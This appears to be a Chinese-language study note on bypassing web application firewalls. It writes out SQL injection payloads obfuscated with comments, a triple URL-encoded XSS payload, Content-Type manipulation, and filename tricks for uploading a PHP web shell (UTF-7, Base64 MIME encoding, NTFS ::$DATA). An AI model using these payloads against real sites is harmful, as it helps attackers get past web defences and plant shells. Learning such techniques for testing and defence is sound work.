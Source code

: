 ### 轉送後端

## 夢回 2009 繞 WAF
### 2009 案例 I
`id=1' and 1=1#`
利用 SQL 註解語法與空格的混淆來繞過 WAF
> Key word、Regular expression

![image](https://hackmd.io/_uploads/rJB1WfnNJx.png)
`id=1'/**/and/**/1/**/=/**/1/**/#`
在 SQL 中查詢：
```sql
SELECT * FROM users WHERE id='1' /**/and/**/1/**/=/**/1/**/#;
```
經過 SqlParser結果：
```sql
SELECT * FROM users WHERE id='1' AND 1=1;
```

### 2009 案例 II
`content=<img src1 error=alert()>`

![image](https://hackmd.io/_uploads/rJK_Nz2Vyx.png)

URL encode 3 次
```
content=%25%32%35%25%33%33%25%36%33%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%34%25%32%35.........％33%32%25%33%39%25%32%35%25%33%33%25%36%35
```
### 2009 案例 III
`id=1' and 1=1#`

![image](https://hackmd.io/_uploads/S1KbX7hEyl.png)
修改 Content-Type，讓 WAF 無法識別 request，達到繞過 WAF 的檢查。\
>檢查流程：\
首先檢查 HTTP 請求的方法是否為 POST，再確認 Message Body 類性: Content-Type == application/x-www-form-urlencoded。

那如果刪除 Header ?!!
## WAF 繞過技巧
- 語言特性
MySQL:
![image](https://hackmd.io/_uploads/HJgaAXhVyx.png)
> 1. 單引號閉合
> 2. 註解 /**/ 代替空格，Bypass WAF 偵測關鍵字
> 3. 大小寫
> 4. 特殊字元、符號

- 作業系統、網頁伺服器
![image](https://hackmd.io/_uploads/H1KvZE2Vyg.png)
> 1. php bypass file extensions checks ([HackTricks/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload))
> 2. MIME data encode
> > 2.1 `filename*=utf7''shell.php`: UTF-7 混淆''，不影響 shell.php\
> > 2.2 `filename="=?utf8?b?c2hlbGwucGhw?="`\
> > `=?utf8?b?`: 使用 UTF-8，b 表示 Base64 encode\
> >  `c2hlbGwucGhw`(Base64 decode): shell.php
> 3. [NTFS](https://en.wikipedia.org/wiki/NTFS)（New Technology File System）: `::$DATA` 預設資料流的類型
- 前後端解析不一致
- 其他 (參數過多、長度過長、找真實 IP 地址等等)

